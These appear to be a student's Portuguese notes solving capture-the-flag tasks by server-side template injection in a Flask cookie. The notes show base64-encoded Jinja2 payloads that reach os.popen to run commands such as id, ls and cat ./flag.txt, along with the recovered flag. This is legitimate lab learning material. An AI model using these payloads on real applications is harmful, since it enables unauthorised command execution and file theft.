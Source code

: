## **Task Injection - Flask**
### **Pergunta**
Obtenha informações internas da aplicação Flask.
### **Resposta**
(usei as dicas mas já suspeitava q era para explorar um SSTI num cookie, https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
tools usadas: cyberchef.io

e3s3Kjd9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==
(base64) -> `{{7*7}}`:703b179695b26fc01e4b18e3e605de2a (hash MD5 admin)

![[Pasted image 20240902155708.png]]

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://github.com/payloadbox/ssti-payloads

e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdpZCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`:703b179695b26fc01e4b18e3e605de2a`
![[Pasted image 20240902161723.png]]

e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscycpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh 
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`:703b179695b26fc01e4b18e3e605de2a
![[Pasted image 20240902161534.png]]

e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdjYXQgLi9mbGFnLnR4dCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('cat ./flag.txt').read()}}`:703b179695b26fc01e4b18e3e605de2a

![[Pasted image 20240902170251.png]]

QUACK{W17h_5571_RC3_15_v3ry_51mpl3}

## **Task Linux - Duck**

e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdwd2QnKS5yZWFkKCl9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('pwd').read()}}`:703b179695b26fc01e4b18e3e605de2a
![[Pasted image 20240902165941.png]]

e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAvaG9tZScpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('ls /home').read()}}`:703b179695b26fc01e4b18e3e605de2a
![[Pasted image 20240902170702.png]]
